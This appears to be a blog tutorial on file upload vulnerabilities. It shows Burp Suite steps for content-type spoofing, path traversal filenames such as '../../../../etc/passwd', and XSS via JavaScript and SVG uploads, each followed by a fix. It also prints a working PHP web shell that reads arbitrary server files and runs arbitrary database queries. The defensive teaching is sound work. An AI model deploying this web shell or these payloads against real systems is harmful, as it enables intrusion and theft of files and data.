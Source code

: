 ```yaml
---
name: 'A Security Guide with Burp Suite and Exploit Code'
description: 'Learn about common file upload vulnerabilities and how attackers exploit them using Burp Suite.'
id: a-security-guide-with-burp-suite-and-exploit-code
tags:
  - 'security'
  - 'exploit'
date: 1729467970079
---
```


File upload functionality is a common feature in web applications. However, if not properly secured, it can lead to dangerous vulnerabilities, potentially allowing attackers to compromise your entire system. In this article, we will explore some of the most common file upload vulnerabilities, including not just PHP-based attacks but also other file types like JavaScript, SVG, and PNG. We will demonstrate how attackers manipulate these vulnerabilities using Burp Suite and show an example of a malicious script that could be used to exploit the system. Additionally, we’ll discuss the best practices for securing your file upload functionality.

### 1. Unrestricted File Uploads (PHP, JavaScript, SVG, and PNG)
One of the most dangerous file upload vulnerabilities is allowing users to upload any file without proper restrictions. Attackers can upload various types of malicious files, including PHP, JavaScript, or even specially crafted SVG or PNG files, that can lead to Remote Code Execution (RCE), defacement, or data theft.

1. PHP Shell Upload
An attacker might upload a .php file (such as a web shell) to execute arbitrary commands on the server.

2. JavaScript File Upload
JavaScript files (e.g., .js) could be uploaded and executed by other users on a web page, leading to attacks like Cross-Site Scripting (XSS) or Remote Code Execution (RCE) in Node.js environments.

- Burp Suite Example:
	1.	Upload a .js file containing malicious JavaScript code via an insecure file upload form.
	2.	Intercept the request with Burp Suite and modify the content type or bypass client-side validation.
	3.	After the upload, the script could be included in the page and executed in the browser context of other users.
```js
// Malicious .js file content
fetch('/steal_cookies').then(response => response.json()).then(data => alert(data));
```

Once uploaded, the script could be accessed via:
```html
<script src="https://example.com/uploads/malicious.js"></script>
```

Solution: Restrict JavaScript file uploads or properly sanitize and encode file content to prevent XSS. Avoid executing user-uploaded files directly in the browser.

3. SVG File Upload
SVG (Scalable Vector Graphics) files are another potential attack vector. Because SVG files support embedded JavaScript and are rendered as XML, attackers can craft malicious SVG files that execute JavaScript when the file is viewed.

- Burp Suite Example:
	1.	Upload a crafted .svg file containing malicious JavaScript.
	2.	Use Burp Suite to bypass the MIME-type validation or filename restrictions.
	3.	Once uploaded, the SVG could execute JavaScript in the context of the browser, leading to XSS or other client-side attacks.
```xml
<!-- Malicious SVG File Content -->
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    alert('Hacked via SVG file!');
  </script>
</svg>
```

Solution: Sanitize SVG files using libraries like SVG-Sanitizer to remove harmful content like embedded scripts. Alternatively, disallow SVG uploads if not essential.

4. PNG File Exploit
Even seemingly harmless image formats like .png can be weaponized. Attackers can craft malicious PNG files containing payloads that target vulnerabilities in image processing libraries (such as ImageMagick or GD in PHP). These vulnerabilities can lead to remote code execution (RCE) or denial of service (DoS) attacks.
- Burp Suite Example:
	1.	Upload a malicious .png file using Burp Suite.
	2.	Trigger an RCE attack by exploiting an image processing vulnerability (e.g., ImageMagick’s CVE-2016-3714).

Solution: Keep image processing libraries up to date and use strict security policies when handling user-uploaded images. Consider using safer libraries or services to process images outside of your main application environment.

### 2. Content-Type Bypass (Various File Types)

Attackers often manipulate the Content-Type header in HTTP requests to bypass file upload restrictions. For example, they might change the content type of a PHP file to image/jpeg or a .js file to text/html to trick the server into accepting the upload.

- Burp Suite Example:
	1.	Intercept the upload request in Burp Suite.
	2.	Change the Content-Type header to bypass file type validation and upload a malicious file.
	3.	Forward the request, and if successful, the file will be stored and potentially executed.

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: image/jpeg

[FILE DATA]
```

Solution: Perform strict server-side validation of file types using both file extensions and the actual content of the file. Avoid relying solely on client-provided headers.

### 3. Path Traversal in File Uploads

Path traversal vulnerabilities occur when attackers can manipulate the file path during an upload to place a file in a different directory than intended or overwrite sensitive files.

Example:
An attacker could upload a file using a path traversal string, such as `../../../../../var/www/html/shell.php`, to place a PHP shell in the web root.

- Burp Suite Example:
	1. Intercept the upload request in Burp Suite.
	2. Modify the filename parameter to include a path traversal string.
	3. Forward the request and check if the file was uploaded to an unintended location.

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="../../../../etc/passwd"

[FILE DATA]
```

Solution: Sanitize filenames and file paths using functions like basename() to strip out dangerous path traversal characters. Store uploaded files in a dedicated directory with strict permissions.

##### Sample Exploit PHP Script: File Read and Database Dump

If an attacker successfully uploads a malicious file, such as a PHP web shell, they can use it to read sensitive files or dump the database contents. Below is a PHP script that demonstrates this.

```php
<?php
// Simple Web Shell with File Read and DB Dump Functionality

// Command to read any file from the server (e.g., /etc/passwd or database config file)
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    if (file_exists($file)) {
        echo "<pre>" . htmlspecialchars(file_get_contents($file)) . "</pre>";
    } else {
        echo "File does not exist.";
    }
}

// Connect to the database and extract data
if (isset($_GET['db'])) {
    $host = 'localhost'; // Change if using a remote database
    $db = 'your_database_name'; // Name of the database
    $user = 'your_database_user'; // Database user
    $pass = 'your_database_password'; // Database password

    $conn = new mysqli($host, $user, $pass, $db);

    if ($conn->connect_error) {
        die("Database connection failed: " . $conn->connect_error);
    }

    $query = isset($_GET['query']) ? $_GET['query'] : 'SELECT * FROM your_table LIMIT 10';
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
        while ($row = $result->fetch_assoc()) {
            echo "<pre>" . print_r($row, true) . "</pre>";
        }
    } else {
        echo "No results found.";
    }

    $conn->close();
}
?>
```

### How to Protect Against File Upload Vulnerabilities

To safeguard your web application from these types of attacks, follow these best practices:
1.	File Type Validation: Always validate the type of file being uploaded. Check both the file extension and the MIME type. Use libraries to inspect the content of the file (like mime_content_type() in PHP) and avoid trusting user-supplied values.
2.	Use File Validators: Implement strong file validation logic to allow only specific file types (e.g., images or PDFs). Tools like Symfony Validator or Laravel’s validation system allow you to enforce rules for file uploads.
3.	Limit File Sizes: Ensure that large files are rejected. Set file size limits server-side to prevent attackers from uploading excessively large files and causing a denial-of-service (DoS) attack.
4.	Use Safe Directories: Store uploaded files in a directory outside of your web root. If files don’t need to be accessed via the web server, this reduces the risk of attackers accessing or executing them.
5.	Sanitize Filenames: Prevent path traversal attacks by sanitizing file paths and filenames using functions like basename() to avoid directory traversal.
6.	Set Proper File Permissions: Ensure that the directory where files are uploaded has restricted permissions. Uploaded files should not have execute permissions (chmod 644), which prevents execution of malicious scripts.
7.	Disable Script Execution in Upload Directory: Use a .htaccess file to disable PHP or other script execution in the upload directory.
8.	Sanitize SVGs: Use tools like SVG-Sanitizer to clean SVG files from potentially harmful embedded scripts.
9.	Use Antivirus/Antimalware: Implement an additional layer of protection by scanning uploaded files for known malware signatures using tools like ClamAV.
10.	Keep Software Updated: Regularly update your web server software, image processing libraries, and other components to patch known vulnerabilities.

By following these best practices and understanding the risks associated with file uploads, you can better secure your web application from various attack vectors.